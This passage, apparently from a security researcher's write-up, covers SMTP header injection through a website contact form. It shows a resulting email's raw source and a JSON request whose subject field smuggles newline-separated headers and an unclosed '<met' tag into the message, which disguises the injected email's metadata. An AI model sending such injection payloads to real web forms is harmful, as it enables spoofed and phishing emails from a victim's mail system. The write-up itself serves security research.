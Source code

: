 Resulting email:

<img src="{{ site.url }}{{ site.baseurl }}/images/smtp_cs2/z_progress.png" alt="metadata pushed to email body, but everything is rendered as html" class="left-align shadow" style="width:calc(1075px * .66667)">

It can be seen above that afterwards, the metadata still printed to the body, but now the formatting of the text broke down and the HTML tags are no longer being displayed. Viewing the source of the email further validates that everything has now been encapsulated by my new Content-Type header to be interpreted as HTML.

```html
<meta http-equiv="Content-Type" content="text/html; charset=iso-8859-1">
MIME-Version: 1.0
Content-Type: multipart/mixed; 
    boundary=&quot;----=_Part_2337_1756916918.1561753192452&quot;
X-Mailer: sendmsg

------=_Part_2337_1756916918.1561753192452
Content-Type: text/html; charset=utf-8
Content-Transfer-Encoding: 7bit

<html>
    <head>
        <style>
        body {
            font-family: Calibri,sans-serif;
        }
        </style>
    </head>
    <body>
        Message from the Contact Us page from TheCEO. The information requested is:
        <br><br>
        this is my message
    </body>
</html>
------=_Part_2337_1756916918.1561753192452--
```

Now the issue is to get rid of all the old metadata information that’s getting displayed in the email. All the metadata exists prior to the opening `<html>` tag so I can't select it with CSS to make it all disappear (by either changing the text color to white or modifying the attributes to “hidden”). I tried to append `<html>` at the end of my header injection so that it would be inserted before all the metadata but there were only 4 characters available in the Subject field where I could inject.

I noticed that the `<meta>` tag and its properties were not showing in the actual email body as plaintext. So I thought that if I opened a `<meta` tag, but never closed it with the right angle bracket, it might absorb everything after it as its own property data. There were only 4 characters left so I was only able to try with `<met` but I just went with it.

```json
{
    "firstName": "TheCEO",
    "lastName": "YourBoss",
    "email": "the_ceo@haxxme.com",
    "phone": "1112223333",
    "subject": "\nContent-type:text/html;\n\n<met",
    "message": "this is my message"
}
```
